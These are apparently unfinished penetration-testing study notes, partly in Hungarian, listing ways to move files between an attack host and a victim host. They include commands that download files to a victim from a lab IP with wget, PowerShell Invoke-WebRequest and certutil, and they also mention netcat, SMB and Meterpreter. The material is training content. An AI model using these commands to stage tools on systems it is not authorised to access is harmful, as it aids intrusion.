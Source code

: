 # TODO
* htba file transfers modult nezzuk meg
* ejpt repobol nezzuk meg a methodokat
# Basic file transfer methods
## Base64 encode - decode - copy/paste between machines
* Base64 encoding data on source machine
* Copy-pasting base64 string from source machine to dest machine
* Base64 decoding on destination machine (+ redirect output to file)
## HTTP file transfer
### From Attack host to Victim host (Linux)
* python web server + wget
<pre>
<b># attack machine</b>
$ python -m http.server 8000
<b># victim machine</b>
$ wget http://10.10.10.2:8000/file.txt
</pre>
### From Attack host to Victim host (Windows)
* python web server + powershell iwr
<pre>
<b># attack machine</b>
$ python -m http.server 8000
<b># victim machine</b>
PS> Invoke-WebRequest -Uri http://10.10.10.2:8000/file.txt -OutFile .\file.txt .\file.txt
</pre>
* python web server + certutil
<pre>
<b># attack machine</b>
$ python -m http.server 8000
<b># victim machine</b>
C:\> certutil -urlcache -f http://10.10.10.2:8000/file.txt > file.txt
</pre>
### From Victim host (Linux) to Attack host
* python web server + wget
### From Victim host (Windows) to Attack host
????
### Alternatives for tools
* alternatives for python: python3, python2.7, php, perl, ruby, ...
* alternatives for wget: curl, powershell iwr, certutil
## Netcat redirect file transfer
<pre>
dolgozzuk ki szepen
</pre>
## SMB file transfer
## SCP file transfer
## Meterpreter file transfer
## Other solutions
* RDP mounted drive
* HTTP file upload server hosted on attack machine + power shell client script
* Netcat pipes + redirect
* FTP
